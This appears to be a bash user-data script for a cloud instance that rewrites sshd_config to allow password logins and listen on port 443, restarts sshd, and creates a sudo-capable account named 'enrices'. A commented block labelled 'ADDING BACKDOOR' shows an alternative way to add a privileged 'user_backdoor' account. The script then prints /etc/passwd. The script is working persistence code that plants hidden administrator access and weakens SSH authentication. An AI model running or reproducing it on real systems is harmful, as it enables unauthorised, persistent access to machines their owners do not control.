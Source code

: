 ```bash
#!/bin/bash -xe

echo "############## START OF USER DATA ##############"

# -------------------------------------------
# GENERAL INFOS
# -------------------------------------------
# whoami
# pwd
# ls -la
# cat /etc/*release
# ls -la /etc/

# -------------------------------------------
# SSH CONFIG
# -------------------------------------------
# cat /etc/ssh/sshd_config

SSHD_CONF="/etc/ssh/sshd_config"

# If a line with PasswordAuthentication exists (even commented), replace it
if grep -q -E '^\s*#?\s*PasswordAuthentication\s+' "$SSHD_CONF"; then
    echo "Changing the PasswordAuthentication line to yes (And potentially uncommenting it)"
    sudo sed -i -E 's|^\s*#?\s*PasswordAuthentication\s+.*|PasswordAuthentication yes|' "$SSHD_CONF"
else
    echo "Appending PasswordAuthentication yes to $SSHD_CONF"
    echo "PasswordAuthentication yes" | sudo tee -a "$SSHD_CONF" > /dev/null
fi

# Ensure Port 443 is set
if grep -q -E '^\s*#?\s*Port\s+' "$SSHD_CONF"; then
    echo "Changing Port to 443"
    sudo sed -i -E 's|^\s*#?\s*Port\s+.*|Port 443|' "$SSHD_CONF"
else
    echo "Appending Port 443 at the end of $SSHD_CONF"
    echo "Port 443" | sudo tee -a "$SSHD_CONF" > /dev/null
fi

service sshd restart
service sshd status

# -------------------------------------------
# ADDING ENRICES (METHOD 1)
# -------------------------------------------
which useradd
useradd -m -p '{PLEASE REPLACE ME}' -s /bin/bash enrices
usermod -aG sudo enrices

# ADDING BACKDOOR (METHOD 2)
# Commenting these, because Method 1 works very well (and no password in clear text in the user data...)
# username=user_backdoor
# password= # Please write clear-text password here
# sudo adduser --gecos "" --disabled-password $username
# sudo chpasswd <<<"$username:$password"
# usermod -aG sudo $username

cat /etc/passwd

echo "############## END OF USER DATA ##############"
```
